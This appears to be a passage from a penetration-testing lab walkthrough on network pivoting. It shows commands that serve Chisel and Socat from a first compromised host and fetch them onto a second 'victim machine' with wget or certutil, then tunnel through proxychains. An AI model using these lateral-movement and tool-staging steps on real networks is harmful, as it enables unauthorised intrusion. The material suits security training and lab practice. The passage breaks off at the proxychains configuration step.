<figure><img src="../../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

All right! We stop listening on the Kali and to reach the third machine, we've to do the same procedure.

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

We need Chisel and Socat on target 2, then we transfer it as always, but using target 1 machine and not Kali.&#x20;

<pre class="language-bash"><code class="lang-bash"><strong>#Target 1
</strong><strong>python3 -m http.server 80 #target 1, on the same directory of chisel
</strong></code></pre>

<pre class="language-bash"><code class="lang-bash"><strong>#Target 2
</strong>proxychains ssh ubuntu@&#x3C;t2_nat2> #access to target 2 from kali
wget http://&#x3C;t1_nat2>/* #download chisel and socat (if victim machine has Linux OS)
certutil -urlcache -split -f http://&#x3C;t1_nat2>/* #download chisel and socat (if victim machine has Windows OS)
chmod +x chisel #give execution permission
chmod +x socat #give execution permission
</code></pre>

Then, we need to open a new tunnel connection on Kali machine, therefore we execute a 2nd session of target 1 on a different port of socks5.

#### Setting proxychains

With root privileges edit the file `/etc/proxychains4.conf`. At the bottom, you should add the following line:
